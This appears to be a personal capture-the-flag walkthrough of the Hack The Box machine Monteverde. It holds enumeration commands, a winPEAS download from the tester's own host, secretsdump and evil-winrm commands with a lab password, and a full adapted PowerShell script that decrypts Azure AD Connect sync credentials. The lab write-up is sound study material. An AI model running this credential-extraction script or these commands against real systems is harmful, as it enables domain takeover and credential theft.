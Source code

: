
It's time for Bloodhound and Winpeas

Bloodhound
```
bloodhound-python -d MEGABANK.local -u mhope -p '4n0therD4y@n0th3r$' -ns 10.10.10.172 -c all
```

![[Pasted image 20240504002952.png]]

Started the Neo4j console and Run bloodhound


```
IWR -Uri http://10.10.16.20:8080//winpeas/winPEASx64.exe -OutFile winPEASx64.exe
```
![[Pasted image 20240504003704.png]]

Systeminfo
![[Pasted image 20240504013037.png]]

```
USERDOMAIN: MEGABANK
USERDNSDOMAIN: MEGABANK.LOCAL
```

![[Pasted image 20240504014452.png]]

If you recall that we have seen this account user name starting with AAD_ is used for actual sync service.
https://docs.microsoft.com/en-us/azure/active-directory/hybrid/concept-adsync-service-account

![[Pasted image 20240505041831.png]]

![[Pasted image 20240505041255.png]]


AD Sync 
![[Pasted image 20240505041505.png]]
So we see a Microsoft Azure AD Sync Folder 

We can enumerate the service instance using the Registry.
```
Get-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\ADSync
```
![[Pasted image 20240505041916.png]]


```
Get-ItemProperty -Path "C:\Program Files\Microsoft Azure AD Sync\Bin\miiserver.exe" | Format-list -Property * -Force
```
![[Pasted image 20240505043207.png]]

First i tried running this to know if it working cuz the tools we are going to use will extract the password dump from the AD as it's using DPAPI

```
secretsdump.py MEGABANK.LOCAL/mhope:'4n0therD4y@n0th3r$'@10.10.10.172 -use-vss
```
![[Pasted image 20240505042603.png]]

https://github.com/dirkjanm/adconnectdump
https://blog.xpnsec.com/azuread-connect-for-redteam/
If i recall it correct we have also used another tool written by this fella. (i.e. ldapdomain dump)

Let's try the tool
![[Pasted image 20240505044351.png]]

I don't know how to run the tool as it wants a file that we can decrypt using this tool.
```
/root/HackTheBox/Monterverde/adconnectdump/decrypt.py
```


```
sqlcmd -S MONTEVERDE -Q "use ADsync; select instance_id,keyset_id,entropy from mms_server_configuration"
```
![[Pasted image 20240505045617.png]]

```
instance_id: 1852B527-DD4F-4ECF-B541-EFCCBFF29E31
keyset_id: 1
entropy: 194EC2FC-F186-46CF-B44D-071EB61F49CD
```

Changes:
```
$keyset_id = 1
$instance_id = [GUID]"1852B527-DD4F-4ECF-B541-EFCCBFF29E31"
$entropy = [GUID]"194EC2FC-F186-46CF-B44D-071EB61F49CD"
```

Now will save the script adconnect.ps1
```
Function Get-ADConnectPassword{
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"
$keyset_id = 1
$instance_id = [GUID]"1852B527-DD4F-4ECF-B541-EFCCBFF29E31"
$entropy = [GUID]"194EC2FC-F186-46CF-B44D-071EB61F49CD"
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList
"Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM
mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()
add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName
Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']"
| select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']"
| select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name =
'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
}
```


```
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```


Let's see the Private_configuration
```
sqlcmd -Q "Use ADSync; select private_configuration_xml FROM mms_management_Agent"
```
![[Pasted image 20240505154724.png]]

Will the in memory command
```
evil-winrm -u mhope -p '4n0therD4y@n0th3r$' -i 10.10.10.172 -s .
```
As we are getting the error yesterday so we need to replace some code as we are not able to the get the SQL connection.

![[Pasted image 20240505160023.png]]

![[Pasted image 20240505160411.png]]
We are getting the error on the 2nd line where the client is trying to open the connection.
Let's find another way to do that.


On googling it we found this
```
new-object system.data.sqlclient.sqlconnection
```
https://www.sqlshack.com/connecting-powershell-to-sql-server/

Before
```
-ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
```

After
```
Server=localhost;Integrated Security=true;Initial Catalog=ADSync
```
![[Pasted image 20240505160814.png]]

Now the code is running aka connection is established
![[Pasted image 20240505161134.png]]


```

```